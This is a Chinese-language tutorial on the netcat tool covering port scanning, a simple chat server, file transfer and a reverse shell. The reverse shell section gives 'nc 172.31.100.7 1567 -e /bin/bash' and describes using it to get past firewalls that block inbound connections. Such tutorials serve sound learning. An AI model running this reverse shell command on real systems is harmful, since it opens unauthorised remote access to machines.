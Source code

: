 -----

# netcat（nc）工具
netcat一般被称为网络工具中的瑞士军刀，它能通过TCP和UDP在网络中读写数据。

1. 端口扫描
   端口扫描经常被系统管理员和黑客用来发现在一些机器上开放的端口，帮助他们识别系统中的漏洞。


   	$nc -z -v -n 172.31.100.7 21-25
   	可以运行在TCP或者UDP模式，默认是TCP，-u参数调整为udp.
   	z 参数告诉netcat使用0 IO,连接成功后立即关闭连接， 不进行数据交换(谢谢@jxing 指点)
   	v 参数指使用冗余选项（译者注：即详细输出）
   	n 参数告诉netcat 不要使用DNS反向查询IP地址的域名
   	这个命令会打印21到25 所有开放的端口。Banner是一个文本，Banner是一个你连接的服务发送给你的文本信息。当你试图鉴别漏洞或者服务的类型和版本的时候，Banner信息是非常有用的。但是，并不是所有的服务都会发送banner。

2. Chat Server
   	用来当作聊天的窗口

   	Server端：nc -l 1567 

   	在1567端口启动了一个tcp服务器,端口可以换成其他（但是不能和现在的服务冲突）

   	在另一台机子启动Client

   	nc <Server ip> 1567

3. 传输文件
   ​	
   ​		
   		假设要传输一个file文件从A（172.31.100.7）到B（172.31.100.23）可以进行以下操作
   	A：server：$nc -l 1567 < file.txt
   	B：Client：$nc -n 172.31.100.7 1567 > file.txt
   	或者
   	B:Server nc -l 1567 > file.txt
   	A:Client nc 172.31.100.23 1567 < file.txt
4. 反向shell（这里对于安全人员最关键！！）
   反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。
   服务端


   	$nc -l 1567
   	在客户端，简单地告诉netcat在连接完成后，执行shell。
   	客户端
   	$nc 172.31.100.7 1567 -e /bin/bash
   	现在，什么是反向shell的特别之处呢 
   	反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。 

5. 具体参数详解

   	连接： nc -参数 地址 端口

   	侦听：nc -l -p 端口 -参数
